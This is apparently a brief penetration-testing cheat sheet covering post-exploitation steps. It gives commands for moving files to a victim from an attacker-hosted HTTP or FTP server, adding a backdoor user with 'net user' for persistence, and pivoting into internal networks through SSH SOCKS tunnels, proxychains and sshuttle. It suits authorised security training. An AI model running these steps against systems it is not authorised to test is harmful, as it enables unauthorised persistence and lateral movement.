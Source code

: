 

File Transfer Methods:
	HTTP `python -m SimpleHTTPServer 80`
	FTP - Attacker:`python -m pyftpdlib 21` victim: `ftp <attacker ip>`

Maintaining Access:
	As a pentester, your only method of MA will probably be adding a user
	`net user <user> <password> /add`

Pivoting:
	We are using pivoting to get to different machines using a midpoint
	`cat /etc/proxychains4.conf`
	SSH must be running on a victim machine
	`ssh -f -N -D 9050 -i pivot <user>@<target ip>`
	After, when you want to attack through a tunnel, use
	`proxychains <command to run here>`
	For nmap, sometimes -sT is needed to find ports
	Attacks can be ran through as well.
	RDP can be used via:
	`proxychains xfreerdp /u:<user> /p:'<password>' /v:<target ip>`
	You can use firefox via proxychains:
	`proxychains firefox`
	SSHUTTLE
	You can also use this instead of proxychains
	`sshuttle -r <user>@<target ip> <new network to connect> --ssh-cmd "ssh -i pivot"`